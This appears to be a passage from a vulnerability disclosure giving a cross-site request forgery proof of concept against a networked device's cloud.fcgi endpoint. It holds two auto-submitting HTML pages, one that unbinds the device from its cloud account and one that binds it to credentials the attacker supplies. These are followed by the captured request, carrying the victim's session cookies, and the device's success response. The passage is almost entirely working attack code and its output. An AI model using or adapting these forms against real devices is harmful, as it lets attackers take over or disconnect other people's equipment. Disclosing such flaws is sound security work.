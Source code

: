 
~~~HTML
<!DOCTYPE html>
<!-- unregister.html -->
<html>
<body>
<form method="POST" action="http://192.168.0.10/cloud.fcgi" id="unregister">
  <input type="text" name="command" value="unbind">
</form> 
<script>
document.getElementById("unregister").submit();
</script>

</body>
</html>
~~~

~~~HTML
<!DOCTYPE html>
<!-- register.html -->
<html>
<body>
<form method="POST" action="http://192.168.0.10/cloud.fcgi" id="register">
  <input type="text" name="command" value="bind">
  <input type="text" name="username" value="[email]">
  <input type="text" name="password" value="[password]">
  <input type="text" name="token" value="">
</form> 
<script>
document.getElementById("register").submit();
</script>
</body>
</html>
~~~


After visiting the exploit hosted at 'http://192.168.0.15/', the following
requests and responses are generated.

***Unregister***

~~~
POST /cloud.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.15/unregister.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

command=unbind
~~~


~~~
HTTP/1.1 200 OK
Content-Type: text/json
Content-Language: en
Connection: close
Date: Wed, 26 Jul 2017 12:55:38 GMT
Server: lighttpd/1.4.32-devel-27736
Content-Length: 39

{"errorCode":0, "status":3, "binded":0}
~~~
